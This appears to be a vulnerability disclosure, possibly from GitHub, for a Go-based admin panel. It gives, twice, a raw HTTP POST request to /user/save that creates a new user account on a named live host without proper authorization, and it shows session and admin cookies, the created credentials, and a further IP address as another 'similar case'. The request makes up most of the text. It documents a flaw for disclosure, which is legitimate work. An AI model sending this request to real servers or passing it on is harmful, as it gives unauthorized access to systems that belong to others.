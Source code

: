 ```yaml
---
typora-root-url: ./
---
```


PoC :

POST /user/save HTTP/1.1
Host: www.tk.hmoob.top:32080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 75
DNT: 1
Connection: close
Referer: http://www.tk.hmoob.top:32080/user/add
Cookie: go_session_id=MzhiZjgzMGMtM2NlNS00MmI2LWJjMDEtM2Q5ZmIwYzAwNWQw.54ca131633a48e5795c0b58f2de193a6bf577294; gpadminpassport=cm9vdHw2OWUzMTg5MmM3NmY5ZjI5MGIwYzVkYTlkMDE4Nzc2ZQ==

user_id=&username=admin21&password=%7D%26b%3Bf9%23ZX%3AU%40yWX&given_name=1



# Case 

url: http://www.tk.hmoob.top:32080/login/index

![img2](/img2.png)

Use poc to create users.

PoC:

POST /user/save HTTP/1.1
Host: www.tk.hmoob.top:32080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 75
DNT: 1
Connection: close
Referer: http://www.tk.hmoob.top:32080/user/add
Cookie: go_session_id=MzhiZjgzMGMtM2NlNS00MmI2LWJjMDEtM2Q5ZmIwYzAwNWQw.54ca131633a48e5795c0b58f2de193a6bf577294; gpadminpassport=cm9vdHw2OWUzMTg5MmM3NmY5ZjI5MGIwYzVkYTlkMDE4Nzc2ZQ==

user_id=&username=admin21&password=%7D%26b%3Bf9%23ZX%3AU%40yWX&given_name=1

![img1](/img1.png)

The created account is amdin21, the password is }&b;f9#ZX:U@yWX, and the name is 1.

Login authentication

![img3](/img3.png)

## Similar cases

https://49.51.191.170/login/index